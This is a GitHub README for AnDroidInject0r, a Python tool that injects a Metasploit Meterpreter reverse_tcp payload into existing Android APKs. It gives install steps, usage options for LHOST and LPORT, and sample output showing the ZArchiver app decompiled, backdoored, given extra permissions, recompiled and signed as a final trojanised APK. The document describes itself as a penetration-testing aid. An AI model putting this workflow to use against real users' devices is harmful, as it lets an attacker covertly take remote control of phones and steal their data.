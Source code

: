 # AnDroidInject0r

AnDroidInject0r is a Python script to inject existing Android applications with a Meterpreter payload. It can be used during penetrating testing or security assessments.


[![asciicast](https://asciinema.org/a/ajlfaPCAmWbWT4Ie0GDmLshjy.png)](https://asciinema.org/a/ajlfaPCAmWbWT4Ie0GDmLshjy)

```
    [+] AUTOR:        Yasser Janah
    [+] GITHUB:       https://github.com/yasserjanah
    [+] TWITTER:      https://twitter.com/th3x0ne
    [+] FACEBOOK:     https://fb.com/yasser.janah0
```
# Getting the code

Firstly get the code:
```
git clone https://github.com/yasserjanah/AnDroidInject0r.git
cd AnDroidInject0r/
chmod +x install_requirements.sh
./install_requirements.sh
```
# Usage

```
Usage: python2 AnDroidInject0r.py -p [PAYLOAD] --lhost=[LHOST] --lport=[PORT] --apkfile=[APKFILE]
    << Coded by : Yasser Janah >>
    << Facebook : https://facebook.com/yasser.janah >>
    << Twitter  : https://twitter.com/yasser_janah >>
    << Github   : https://github.com/yasserjanah/ >>
    -p  , --payload        a metasploit android payload (e.x android/meterpreter/reverse_tcp) (not required)
    -lh , --lhost          The listen address (not required)
    -lp , --lport          The listen port (default 4444)
    -ap , --apkfile        path of apkfile (required!!)
```

# Need just select the apkfile 
```
$ ./AnDroidInject0r.py --apkfile zarchiver0-8-3.apk

[*] payload not selected .. default 'android/meterpreter/reverse_tcp'
[*] LHOST not selected .. using '192.168.43.230'
[*] LPORT not selected .. using '4444'
[+] Generating payload:  Generated.
[+] Decompling payload:  Decompiled.
[+] Decompling 'zarchiver0-8-3.apk':  Decompiled.
[+] Copying payload files into 'zarchiver0-8-3.apk':  Done.
[*] Parsing AndroidManifest file
[*] Activity PATH : 'ru/zdevs/zarchiver'
[*] SMALI File    : 'ZArchiver.smali'
[+] Injecting payload into 'zarchiver0-8-3.apk':  Injected.
[+] Get Permissions from payload AndroidManifest file:  Done.
[+] Add Permissions into 'zarchiver0-8-3.apk' AndroidManifest file:  Permissions Added.
[+] Recompling 'zarchiver0-8-3.apk':  Recompiled.
[+] Signing 'zarchiver0-8-3.apk':  Signed.

[+] metasploit rc file : '/home/mcsc/Droid_Inject0r/droid_apk.rc'

[+] final apk : '/home/mcsc/Droid_Inject0r/zarchiver0-8-3-final.apk'

```
